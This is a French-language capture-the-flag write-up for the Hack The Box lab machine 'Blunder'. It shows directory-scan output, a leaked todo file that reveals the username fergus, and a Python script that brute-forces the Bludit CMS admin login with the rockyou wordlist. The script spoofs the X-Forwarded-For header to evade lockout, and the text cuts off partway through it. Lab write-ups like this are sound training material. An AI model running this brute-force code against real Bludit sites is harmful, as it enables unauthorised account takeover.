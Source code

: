 ~~~
                                                                                        + http://10.10.10.191/robots.txt (CODE:200|SIZE:22)                               
+ http://10.10.10.191/todo.txt (CODE:200|SIZE:118)
                                                                               
-----------------
END_TIME: Wed Jun 10 10:37:31 2020
DOWNLOADED: 4651 - FOUND: 2
root@Host-001:~/Bureau/htb/Blunder# 

Visiter http://10.10.10.191/todo.txt
~~~

Résultat: 

~~~
-Update the CMS
-Turn off FTP - DONE
-Remove old users - DONE
-Inform fergus that the new blog needs images - PENDING
~~~

User = fergus

On utilise le poc de rastating pour bruteforcer Bludit avec le user fergus

~~~
root@Host-001:~/Bureau/htb/Blunder# cat poc.py 
#!/usr/bin/env python3
import re
import requests

login_url = 'http://10.10.10.191/admin/login'
username = 'fergus'
#wordlist = []

passlist = open("/usr/share/wordlists/rockyou.txt", "r")
#for x in f:
#  print(x) 


# Generate 50 incorrect passwords
#for i in range(50):
#    wordlist.append('Password{i}'.format(i = i))

# Add the correct password to the end of the list
#wordlist.append('adminadmin')

for password in passlist:
    #print(password)
    password = password.replace("\n","")
    session = requests.Session()
    login_page = session.get(login_url)
    csrf_token = re.search('input.+?name="tokenCSRF".+?value="(.+?)"', login_page.text).group(1)

    print('[*] Trying: {p}'.format(p = password))

    headers = {
        'X-Forwarded-For': password,
        'User-Agent': 'Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/77.0.3865.90 Safari/537.36',
        'Referer': login_url
    }

    data = {
        'tokenCSRF': csrf_token,
        'username': username,
~~~